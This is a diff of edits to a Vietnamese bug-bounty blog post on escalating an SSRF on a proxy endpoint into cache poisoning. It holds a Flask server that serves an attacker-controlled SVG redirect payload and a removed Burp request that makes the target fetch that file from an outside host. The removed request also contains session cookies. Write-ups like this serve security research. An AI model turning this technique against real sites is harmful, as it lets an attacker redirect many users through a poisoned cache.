

Before and after one commit to thewindghost/thewindghost.github.io, a Markdown page: posts/SSRF-induced-Cache-Poisoning-Logic-Bug.md, 2 parts joined by grey strips. Shown at 89% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/posts/SSRF-induced-Cache-Poisoning-Logic-Bug.md
+++ b/posts/SSRF-induced-Cache-Poisoning-Logic-Bug.md
@@ -10,6 +8,5 @@ Hi, hôm nay mình sẽ chia sẻ về lỗ hổng `Cache Poisoning(Biến Thể
 
 ---
-## 1. Phân tích lỗ hổng Cache Poisoning thông qua Server-Side Request Forgery ?
 
-Được rồi tại sao mình lại nói như vậy? Có lẻ mọi người sẽ khá thắc mắc, lỗ hổng này bắt nguồn từ việc tìm được `Proxy Controller Endpoint` vì vậy mình đã POC được `SSRF` nhưng ở đây chỉ là `P5 Informational` vì `Program` họ phân định rằng `SSRF` chỉ tương tác được với dịch vụ bên ngoài hoặc tương tác với `Server Attacker` đều là `Low-Impact`. Vì vậy họ nói rằng mình nên tìm cách nâng `Impact` của nó lên cao hơn họ sẽ đánh giá lại!
+## 1. Nguyên lý lỗi
 
@@ -53,30 +43,9 @@ Mình có `Payload` như sau:
 </svg>
 ```
 
-`Payload` này được sử dụng cho việc tiến hành tấn công `Open Redirect` tới `Server Attacker`, nghe có vẻ `low-impact` nhỉ ? Nhưng quan trọng cái họ quan tâm làm thế nào để `Payload` này save vào `Cache` và gây ra tấn công Hàng Loạt mà thôi!
+### 3.2 Python Flask Demo
 
-Note: Nãy giờ có nhiều bạn hơi thắc mắc tại sao mà mình đưa `Payload` vào được phải không, bởi vì lỗ hổng `SSRF` đã `Fetch` tới `Server Attacker` và bê toàn bộ `Payload` từ File `Poc.xml` của mình về `Response` của `Server`.
-
-![alt text](/posts/image-post/cache-poisoning-via-fetching-data/6.png)
-
----
-## 4. POC Cache Poisoning Thật Sự !
-
-Có lẻ đã hoàn toàn xong ? Vâng đúng vậy chắc chắn đã xong rồi nhưng làm thế nào mình khẳng định cho họ rằng nó thật sự nghiêm trọng ?
-
-Tiến hành di chuyển sang `VPS Server` để đào sâu hơn. Mình đã tự viết 1 Web với `Python Flask` như sau để đào sâu tăng nó từ `P4 -> P3`
-
-```bash
-- Quá trình chi tiết
-mkdir poc-cache-poisoning
-cd poc-cache-poisoning
-nano poc.xml -> tự thêm payload ở trên
-nano app.py -> thêm code ở dưới
-python3 app.py -> di chuyển sang Repeater của BurpSuite
-```
----
 ```python
-- Code Cần thêm vào
 from flask import Flask, make_response
 import os
 
@@ -87,28 +56,12 @@ def serve_svg_as_xml():
     file_path = os.path.join(os.getcwd(), 'poc.xml')
     if os.path.exists(file_path):
         with open(file_path, 'rb') as f:
-            response = make_response(f.read())
-            response.headers.set('Content-Type', 'image/svg+xml')
-            return response
-    else:
-        return "File poc.xml not found!", 404
+            resp = make_response(f.read())
+            resp.headers.set('Content-Type', 'image/svg+xml')
+            return resp
+    return "File poc.xml not found!", 404
 
 if __name__ == '__main__':
-    app.run(debug=False, host='0.0.0.0', port=5505)
-```
----
-
-```http
-- Request ở Repeater
-GET /media?u=http://Ip-Demo:5505/poc.xml HTTP/2
-Host: VulnWeb.com
-Cookie: _learn_session_adhoc=23bd7501d7eb466a35f70e1bfe50adde; _ga=GA1.1.165183293.1744628537; _ga_L9HT5MZ3HD=GS1.1.1744628536.1.0.1744629162.60.0.0; _ga_Z6QQP1041C=GS1.1.1744628539.1.0.1744629162.60.0.0
-Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8" Sec-Ch-Ua-Mobile: ?0 Sec-Ch-Ua-Platform: "Windows" Accept-Language: en-US,en;q=0.9
-Upgrade-Insecure-Requests: 1
-User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
-Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1
-Sec-Fetch-Dest: document
-Accept-Encoding: gzip, deflate, br
-Priority: u=0, i
+    app.run(host='0.0.0.0', port=5505, debug=False)
 ```
 
````
Also changed, not shown: other parts of posts/SSRF-induced-Cache-Poisoning-Logic-Bug.md (+38 -48 lines).
